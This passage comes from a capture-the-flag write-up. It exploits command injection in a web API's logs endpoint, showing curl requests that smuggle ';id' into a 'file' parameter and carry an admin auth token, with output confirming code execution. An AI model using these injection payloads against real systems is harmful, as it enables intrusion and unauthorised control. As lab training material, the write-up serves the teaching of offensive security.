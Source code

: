 ```
```

The results of the ping come back showing it worked! I can also see the connection at `tcpdump`:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
12:04:53.974591 IP 10.10.11.120 > 10.10.14.6: ICMP echo request, id 1, seq 1, length 64
12:04:53.974607 IP 10.10.14.6 > 10.10.11.120: ICMP echo reply, id 1, seq 1, length 64

```

#### POC - id

Given that the output comes back (the command injection is not blind), I can test other commands as well, like `id`:

```

oxdf@hacky$ curl -s 'http://10.10.11.120/api/logs?file=;id' -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" | jq -r .
80bf34c fixed typos 🎉
0c75212 now we can view logs from server 😃
ab3e953 Added the codes
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)

```

I could write a small Python script here to keep enumerating via this RCE, but I’ll go for a shell first.

#### Shell

I’ll continue to use `curl`, but rather than putting the GET parameters right into the url, I’ll use `-G` to force a GET request, and `--data-urlencode` to have `curl` encode the data for me. Now I don’t have to worry about special characters, etc. I’ll start with a command I know works to make sure my syntax is correct:

```

oxdf@hacky$ curl -s -G 'http://10.10.11.120/api/logs' \
> --data-urlencode 'file=/dev/null;id' \
> -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.cRgg1KkYXYSwz1xpknTFWTHnx8D-7UMewMubwAGsvQ8" \
> | jq -r .
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)

```

Adding `/dev/null` before the `;` is not necessary, but it makes the `git log` command return nothing, so the output is just from my injection.
